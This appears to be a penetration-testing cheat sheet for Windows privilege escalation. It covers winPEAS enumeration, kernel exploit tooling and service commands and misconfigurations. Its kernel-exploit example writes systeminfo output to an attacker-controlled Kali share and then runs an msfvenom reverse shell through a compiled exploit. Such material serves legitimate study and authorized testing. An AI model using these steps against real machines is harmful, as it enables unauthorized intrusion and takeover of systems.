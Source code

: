 First run `reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1`

All (fast) checks: `.\winPEASany.exe quiet cmd fast`
Specific categories: `.\winPEASany.exe quiet cmd systeminfo`

### AccessChk

Coming Soon...

---

## Kernel Exploits

### Tools

WES (Windows Exploit Suggester): https://github.com/bitsadmin/wesng
Pre-Compiled exploits: https://github.com/SecWiki/windows-kernel-exploits
Watson: https://github.com/rasta-mouse/Watson

### Privilege Escalation Example (Win7)

1. On the windows machine, run:

```cmd
systeminfo > \\my.kali.ip.here\SHARE\systeminfo.txt
```

2. Then on Kali, you can run wesng on the systeminfo.txt with

```bash
python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | less
```

3. Cross-ref results with compiled exploits at SecWiki

4. Run your reverse shell payload from msfvenom as an argument for the compiled exploit.

---

## Service Exploits

### Service Commands

Query the service: `sc.exe qc <name>`
Query the state of the service: `sc.exe query <name>`
Modify a configuration option of a service: `sc.exe config <name> <option>=<value>`
Start/Stop a service: `net start/stop <name>`

### Possible Misconfigurations

- Insecure Service Properties
- Unquoted Service Path
- Weak Registry Permissions
- Insecure Service Executables
- DLL Hijacking
